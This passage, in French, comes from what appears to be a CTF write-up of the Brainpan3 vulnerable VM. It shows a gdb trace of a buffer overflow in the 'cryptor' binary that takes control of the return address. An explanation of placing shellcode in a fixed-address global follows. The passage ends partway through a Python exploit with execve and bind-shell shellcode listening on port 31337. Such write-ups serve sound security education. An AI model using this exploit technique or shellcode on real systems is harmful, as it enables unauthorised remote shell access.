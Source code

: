 Et maintenant la version qui crashe :  

```plain
(gdb) r `python -c "print 'A'*116"` tatayoyo 
Starting program: /home/nico/VirtualBox VMs/brainpan3/cryptor `python -c "print 'A'*116"` tatayoyo

Breakpoint 1, 0x08048786 in ?? ()  <-- au moment de l'appel de la fonction principale
(gdb) info reg ebp esp
ebp            0xffffd428       0xffffd428
esp            0xffffd420       0xffffd420
(gdb) c
Continuing.
[+] saving to AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.enc

Breakpoint 2, 0x08048746 in ?? ()  <-- sur le ret de la fonction principale
(gdb) info reg ebp esp
ebp            0xffffd400       0xffffd400  <-- octet de poids faible écrasé
esp            0xffffd41c       0xffffd41c
(gdb) x/wx $esp
0xffffd41c:     0x0804878b  <-- adresse de retour sur le main
(gdb) ni
0x0804878b in ?? ()
(gdb) x/3i $eip
=> 0x804878b:   mov    $0x0,%eax
   0x8048790:   leave  
   0x8048791:   ret    
(gdb) ni
0x08048790 in ?? ()  <-- leave + ret du main()
(gdb) ni
0x08048791 in ?? ()
(gdb) info reg ebp esp
ebp            0x41414141       0x41414141 <-- oups
esp            0xffffd404       0xffffd404
(gdb) x/wx $esp
0xffffd404:     0x41414141 <-- adresse de retour sous contrôle :)
```

L'exploitation est rendue aisée par le fait que le second argument passé à *cryptor* est copié vers une variable globale à l'adresse fixe *0x080486ad*. On peut donc passer notre shellcode directement en second argument et mettre cette adresse comme adresse de retour (la stack est ici exécutable et le format de la clé n'est pas vérifié).  

J'ai écrit l'exploit suivant. Le shellcode est un bind + fork trouvé sur *exploit-db* comme ça j'ai toujours un shell *reynard* qui m'attend sur le port 31337 :)  

```python
from __future__ import print_function
import struct
import subprocess
from string import ascii_letters

# Le fichier ne doit pas exister pour que l'exploit reussisse !
shellcode = '\x6a\x0b\x58\x99\x52\x68//sh\x68/bin\x89\xe3\x52\x53\x89\xe1\xcd\x80'
shellcode = (
    "\x6a\x66"              # push $0x66 
    "\x58"                  # pop %eax 
    "\x99"                  # cltd 
    "\x6a\x01"              # push $0x1 
    "\x5b"                  # pop %ebx 
    "\x52"                  # push %edx 
    "\x53"                  # push %ebx 
    "\x6a\x02"              # push $0x2 

    #
    # <_doint>:
```